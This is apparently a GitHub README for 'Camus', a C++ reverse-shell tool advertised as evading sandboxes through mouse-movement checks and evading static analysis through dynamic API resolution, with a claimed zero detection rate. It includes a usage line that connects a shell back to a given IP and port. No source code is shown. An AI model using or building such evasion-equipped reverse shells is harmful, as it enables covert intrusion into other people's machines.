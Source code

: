 # Camus

<div style="text-align: center; ">
  <img src="Image/1.jpg" width="200">
</div>


Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass some sandbox technologies through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

Usage:
- Run the program alongside with the IP address and port as inputs for example: Camus.exe 192.168.1.1 555 <br /> <br />




[Notice] When you trying to test the tool remember to move the mouse cursor.If withing 5 seconds to mouse cursor didn't move the program would terminates itself.



 <img src="Image/Antiscan.png" width="500">
 <img src="Image/2.png" width="800">
 <img src="Image/3.png" width="800">
